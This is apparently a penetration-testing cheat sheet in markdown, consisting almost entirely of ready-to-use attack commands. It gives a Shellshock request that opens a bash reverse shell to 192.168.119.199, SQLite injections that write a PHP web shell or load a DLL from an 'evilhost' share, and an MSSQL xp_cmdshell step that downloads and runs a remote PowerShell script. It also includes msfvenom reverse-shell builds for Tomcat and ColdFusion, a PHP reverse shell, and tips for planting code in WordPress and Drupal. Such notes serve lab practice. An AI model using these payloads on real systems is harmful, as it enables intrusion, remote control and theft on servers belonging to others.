 ### Shellshock
```
curl -H 'User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/192.168.119.199/443 0>&1' http://10.11.1.71/cgi-bin/admin.cgi
```

## Wfuzz commands
### url parameter
```
wfuzz -w /usr/share/wordlists/wfuzz/vulns/dirTraversal-nix.txt --hs 'Page not found' http://10.10.10.151/blog/?lang=FUZZ
```

## Database
### Sqlite
```
ATTACH DATABASE ‘/var/www/lol.php’ AS lol; CREATE TABLE lol.pwn (dataz text); INSERT INTO lol.pwn (dataz) VALUES (‘<? system($_GET[‘cmd’]); ?>’;--
```
or
```
?name=123 UNION SELECT 1,load_extension('\\evilhost\evilshare\meterpreter.dll','DllMain');--
```
### MsSQL
```
mssqlclient.py -p 1433 EXAMPLE\Administrator@DC01 -windows-auth
enable_xp_cmdshell
xp_cmdshell powershell IEX(New-Object Net.webclient).downloadString(\"http://192.168.119.199/rev.ps1\")
```

## Common framework
### Tomcat
```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.119.199 LPORT=443 -f war > shell.war
```
Deploy .war through /manager/html
https://www.hackingarticles.in/multiple-ways-to-exploit-tomcat-manager/
### Coldfusion
```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.119.199 LPORT=443 -f raw > shell.jsp
```
Upload through schedule task
### Wordpress
Edit 404.php in `Appearance`
### Drupal
Enable php in options
New post with php code

## Reverse shell
php
```
<?php
print shell_exec("/bin/bash -c 'bash -i >& /dev/tcp/192.168.119.199/443 0>&1'");
?>
```
